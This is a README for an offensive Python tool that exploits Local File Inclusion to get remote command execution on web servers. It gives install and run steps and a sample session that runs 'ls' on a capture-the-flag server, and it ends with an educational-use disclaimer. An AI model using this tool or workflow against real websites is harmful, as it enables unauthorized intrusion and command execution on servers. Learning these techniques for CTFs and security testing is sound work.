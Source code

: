 # LFI-RCE Tool 

This is a Python tool that can be used to perform a Local File Inclusion (LFI) attack that can lead to Remote Code Execution (RCE) on a vulnerable website.

## Requirements

* Python 3.x
* requests library
* base64 library
* webbrowser library
* bs4 library

## Usage

1. Clone the repository:
```bash
git clone https://github.com/jameel3reef/mrAlphaQ.git
```
2. Navigate to the Tools directory:
```bash
cd mrAlphaQ/Tools/LFI-RCE
```
3. Run the LFI-RCE.py script:
```bash
python LFI-RCE.py
```
4. Follow the prompts to enter the necessary information:
Ex:
```bash
python LFI-RCE.py
Enter the URL 'ex: (http://example.com/)': http://blackbox.tamuctf.com
Enter the vulnerable parameter: page
Please choose:
1- Remote Command Excution
2- PHP Info
3- Exit
Your Choice: 1
Enter a command: ls
config.php
index.php
robots.txt
sitemap.xml
static
templates
util.php
```
## Contributors
This tool was created by jameel 3reef. If you have any questions or suggestions for improvement, please feel free to contact me

## Disclaimer
This tool is provided for educational purposes only. The author is not responsible for any malicious use of this tool. Use at your own risk.
